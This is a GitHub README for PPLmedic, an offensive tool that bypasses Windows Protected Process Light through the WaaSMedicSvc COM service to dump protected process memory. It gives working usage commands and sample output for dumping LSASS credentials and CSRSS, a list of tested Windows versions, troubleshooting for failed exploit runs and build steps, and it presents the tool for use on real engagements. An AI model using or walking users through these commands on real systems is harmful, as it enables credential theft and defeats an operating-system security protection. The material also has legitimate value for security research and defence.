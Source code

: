 # PPLmedic

This tool implements a **Userland** exploit chain for injecting arbitrary code into a PPL with the signer type `Windows` and elevating to the signer type `WinTcb`. These techniques were originally discussed by James Forshaw (a.k.a. [@tiraniddo](https://infosec.exchange/@tiraniddo)) in his blog post [Injecting Code into Windows Protected Processes using COM - Part 1](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html).

To learn more about this tool, you should read its companion blog post here:

- TODO: [Bypassing PPL in Userland (again)]()

<p align="center">
  <img src="poc.png">
</p>

## Disclaimer 💣

I would qualify this tool as an _advanced Proof-of-Concept_. You should think twice before using it on a real engagement. It is safe to use as long as it is __not interrupted__, which cannot be guaranteed in the presence of an EDR for instance.

It modifies important registry keys related to the Windows Update Medic service. At worst, if those registry keys are not restored properly, this service will fail to function properly, but this __will not crash__ the OS.

## Usage 📝

Prerequisites:

- __Privileges:__ Administrator or SYSTEM with `SeDebugPrivilege`
- __Platform:__ Windows 10/11 or Windows Server 2019/2022

```bat
REM Use the option -p to elevate from PPL-Windows to PPL-WinTcb
PPLmedic.exe dump "PID" "C:\FULL\PATH\TO\DUMP.dmp" [-p]
```

Dump a PPL-Windows or below (e.g.: LSASS):

```console
C:\WINDOWS\system32>tasklist | findstr lsass
lsass.exe                      756 Services                   0     20,028 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 756 c:\Temp\lsass.dmp -p
[...]
[+] Payload DLL successfully loaded after 272 attempts!
[*] Deleting 272 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[+] Memory dump of process with PID 756 successful: c:\Temp\lsass.dmp
[...]
```

Dump a PPL-WinTcb (e.g.: CSRSS):

```console
C:\WINDOWS\system32>tasklist | findstr csrss
csrss.exe                      520 Services                   0     26,420 K
csrss.exe                      608 Console                    1     57,548 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 520 c:\Temp\csrss.dmp -p
[...]
[+] Payload DLL successfully loaded after 181 attempts!
[*] Deleting 181 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[+] Target file 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' should now be cache signed (level=12 - Windows).
[*] Connected to remote process.
[+] Remote process protection level: 0x00000000 (PsProtectedSignerWinTcb-Light)
[+] Memory dump of process with PID 520 successful: c:\Temp\csrss.dmp
[...]
```

## Tests 📋

| Windows version | PPL-Windows | PPL-WinTcb | Observation |
| --- | --- | --- | --- |
| Windows 10 22H2 Build 19045.2673 | ✔ | ✔ | N/A |
| Windows 11 22H2 Build 22621.1344 | ⚠ | ❌ | Frequent service crash + Fake cached signature exploit does not seem to work. |
| Windows Server 2019 Version 1809 Build 17763.4010 | ✔ | ✔ | N/A |
| Windows Server 2022 Version 21H2 Build 20348.1547 | ✔ | ✔ | N/A |

## Known issues ⚠

You get the following error because the exploit __timed out__ while trying to create a remote `TaskHandler` COM object. This is usually the sign that the target service `WaaSMedicSvc` crashed. This can be confirmed with the next message: `[!] Service WaaSMedicSvc is no longer running`. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Unexpected error or timeout while trying to create a remote TaskHandler instance.
[!] Service WaaSMedicSvc is no longer running, it probably crashed because of an invalid handle value.
[...]
```

You get the following error because the exploit failed to write a valid object directory in __less than 1000 attempts__. This limit serves as a failsafe to prevent the target service from consuming too much resources. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[...]
[*] Attempt 1000/1000 (100%)
[-] Reached the maximum number of attempts.
[...]
```

You get the following error because an unexpected error occurred when calling `LaunchDetectionOnly` or `LaunchRemediationOnly`. This should be quite rare though. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Failed to write LdrpKnownDllDirectoryHandle value (thread exit code: 0x800706ba).
[...]
```

You get the following error because the exploit __failed to cache sign__ the payload DLL. The oplock set on the catalog file was probably never triggered because it was already opened by the Kernel. You can try to rerun the tool at a later time (for Windows 11, refer to the "Tests" section).

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp -p
[...]
[*] Trying to write a valid object directory handle...
[+] Payload DLL successfully loaded after 1 attempts!
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[-] Failed to cache sign 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' (LE: 997).
[...]
```

## Build instructions 🏗

This Visual Studio Solution comprises two projects (the executable and a payload DLL) that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions. The compiled payload DLL is automatically embedded into the final executable.

1. Open the Solution with Visual Studio 2019.
2. Select `Release / x64` (`x86` is not supported!).
3. `Build > Build Solution`.

## Credits

- [@tiraniddo](https://infosec.exchange/@tiraniddo) - Injecting Code into Windows Protected Processes using COM - Part 1  
[https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html)
